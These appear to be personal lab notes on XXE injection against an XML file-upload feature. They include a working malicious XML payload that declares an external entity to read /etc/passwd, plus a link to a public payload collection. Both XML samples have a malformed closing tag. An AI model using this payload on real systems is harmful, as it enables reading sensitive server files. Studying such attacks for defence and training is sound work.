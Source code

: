 **==XML contians some pontentially dangerous features that can be used to perform an attack.==**

<mark style="background: #FF5582A6;">XXE (XML External Entity) is a type of security vulnerability that happens when an application processes XML input from an untrusted source and doesn’t properly restrict how external entities are handled. This can allow attackers to access sensitive data, execute code, or perform malicious actions on the server.</mark>
# XXE 0x01
In this case we have an application that allows us to upload a XML file:
- ![[Pasted image 20250107160729.png]]

**==So we want to create a malicious XML file to execute commands.==**

Our legitimate file must be on the form:
```XML
<?xml version="1.0" encoding="UTF-8"?>

<creds>
	<user>username</user>
	<password>pass</password>
</creds
```


So we can create a mlicious file:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
	<!ELEMENT creds ANY >
	<!ENTITY xxe system "file:///etc/passwd">
]>


<creds>
	<user>&xxe;</user>
	<password>pass</password>
</creds
```


The idea is to declarate the external entity that reads the file `/etc/passwd` and then trigger it with `&xxe;`

To find more XXE payloads we can visit [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)


Uploading the malicious file we obtain:
- ![[Pasted image 20250107161425.png]]

It is very rare to find it, in general we can have this vulnerability in APIs when it requires a JSON but XML is also accepted.

